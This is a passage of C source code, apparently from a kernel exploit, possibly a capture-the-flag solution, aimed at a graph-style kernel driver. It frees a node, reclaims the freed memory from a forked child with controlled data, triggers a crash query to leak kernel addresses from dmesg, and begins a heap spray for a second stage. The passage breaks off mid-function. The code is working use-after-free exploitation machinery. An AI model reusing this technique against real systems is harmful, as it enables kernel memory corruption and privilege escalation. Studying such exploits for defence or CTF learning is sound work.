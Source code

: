 ```c
	*edges_addrp = edges_addr;
}

// resulting size should be in a rarely used cache
// this is supposed to be arbitrary but if you change it you'll mess up stage 3
#define S1_DIST_NUM_NODES 12

static void stage1(unsigned long *dist_addrp, unsigned long *node_addrp, int *node_fdp)
{
	fprintf(stderr, "[S1] Creating graph\n");
	int fds[S1_DIST_NUM_NODES];
	for (int i = 0; i < S1_DIST_NUM_NODES; i++)
		fds[i] = create();
	for (int i = 1; i < S1_DIST_NUM_NODES; i++)
		llink(fds[0], fds[i], 1);

	fprintf(stderr, "[S1] Freeing node\n");
	release(fds[S1_DIST_NUM_NODES-1]);

	pid_t pid = fork();
	assert(pid != -1);

	if (pid == 0) {
		fprintf(stderr, "[S1] Reclaiming node\n");
		struct reclaim_ctx ctx;
		reclaim_alloc(&ctx, 1, 0, 0x4141000000000000UL, 0);

		fprintf(stderr, "[S1] Finalizing root\n");
		finalize(fds[0]);

		fprintf(stderr, "[S1] Performing crash query\n");
		query(fds[0], fds[1]);

		// Will never get here
		exit(1);
	}

	usleep(250 * 1000);

	fprintf(stderr, "[S1] Leaking from dmesg\n");
	unsigned long dist_addr, edges_addr;
	stage1_leak_dmesg(&dist_addr, &edges_addr);
	unsigned long node_addr = edges_addr - 0x60;
	fprintf(stderr, "[S1] Dist @ 0x%lx\n", dist_addr);
	fprintf(stderr, "[S1] Node @ 0x%lx\n", node_addr);

	*dist_addrp = dist_addr;
	*node_addrp = node_addr;
	*node_fdp = fds[0];
#undef STAGE1_NUM_NODES
}

static void stage2_spray(int *fd, int before, int n, int skip, int after)
{
	for (int i = 0; i < before; i++)
		create();
	for (int i = 0; i < n; i++)
		fd[i] = create();
	for (int i = 0; i < n; i += skip) {
		release(fd[i]);
		fd[i] = -1;
	}
	for (int i = 0; i < after; i++)
```